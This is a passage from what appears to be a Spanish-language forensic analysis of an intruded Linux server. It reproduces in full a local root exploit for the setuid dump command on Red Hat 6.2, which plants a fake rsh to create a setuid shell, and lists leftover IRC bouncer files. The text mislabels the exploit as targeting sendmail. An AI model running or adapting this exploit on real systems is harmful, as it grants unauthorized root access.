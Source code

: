 \vspace{1em}

 Este es el contenido de un \textit{exploit} de sendmail.\\
 
 
 Contenido de \texttt{dump.sh}:

\vspace{1em}

\begin{lstlisting}[style=terminal] 
#!/bin/sh

# Redhat 6.2 dump command executes external program
# with suid priviledge.
# Discovered by Mat <mat@hacksware.com>
# Written for and by a scriptkid Tasc ;P
# Remember, there's no cure for BSE

echo "dump-0.4b15 root exploit"
echo "Discovered by Mat <mat@hacksware.com>"
echo "-------------------------------------"
echo
DUMP=/sbin/dump
if [ ! -u $DUMP ]; then
  echo "$DUMP is NOT setuid on this system or does not exist at all!"
  echo
  exit 0
fi
export TAPE=iamlame:iamlame
export RSH=/tmp/rsh
cat >/tmp/rsh <<__eof__
#!/bin/sh
cp /bin/sh /tmp/sush
chmod 4755 /tmp/sush
}
__eof__
chmod 755 /tmp/rsh
/sbin/dump -0 /
echo
echo "Waiting for rootshell .... 5 seconds...."
sleep 5
/tmp/sush
id
\end{lstlisting}

\vspace{1em}

 Es el contenido de un \textit{script} que da acceso a un \textbf{shell} de root de
 forma no autorizada.\\
 

 Los directorios y archivos \texttt{emech}, \texttt{psybnc} y \texttt{eggdrop} son de paquetes
que ejecutan un servidor de \textbf{IRC} y contienen servidores de \texttt{FTP} y
\texttt{telnet}. El contenido de estos directorios es el siguiente:

\vspace{1em}

\begin{lstlisting}[style=terminal]
drwxr-xr-x  3 1040     1040        4096 Apr 23 22:33 ..                                                                                     ?
drwxr-xr-x  2 1040     1040        4096 Oct 21  2000 help
drwxr-xr-x  2 1040     1040        4096 Apr 23 22:34 log
drwxr-xr-x  3 1040     1040        4096 Oct 21  2000 menuconf
drwxr-xr-x  2 1040     1040        4096 Apr 23 22:42 motd
drwxr-xr-x  3 1040     1040        4096 Jul 30  2000 scripts
drwxr-xr-x  2 1040     1040        4096 Oct 21  2000 tools
-rw-r--r--  1 1040     1040       18124 Oct 28  2000 CHANGES
-rw-------  1 1040     1040       17982 May 16  1997 COPYING
-rw-r--r--  1 1040     1040        2660 Aug  8  2000 FAQ
-rw-r--r--  1 1040     1040         394 Oct 28  2000 Makefile
-rw-r--r--  1 1040     1040       36075 Oct 28  2000 README
-rw-r--r--  1 1040     1040          76 Oct 28  2000 TODO
-rwxr-xr-x  1 1040     1040      537712 Apr 23 22:33 in.ftpd
-rw-------  1 1040     1040         716 Apr 23 22:42 psybnc.conf
-rw-------  1 1040     1040         716 Apr 23 22:42 psybnc.conf.old
-rw-------  1 1040     1040           7 Apr 23 22:33 psybnc.pid
-rwxr-xr-x  1 1040     1040         369 Aug  8  2000 psybncchk
\end{lstlisting}

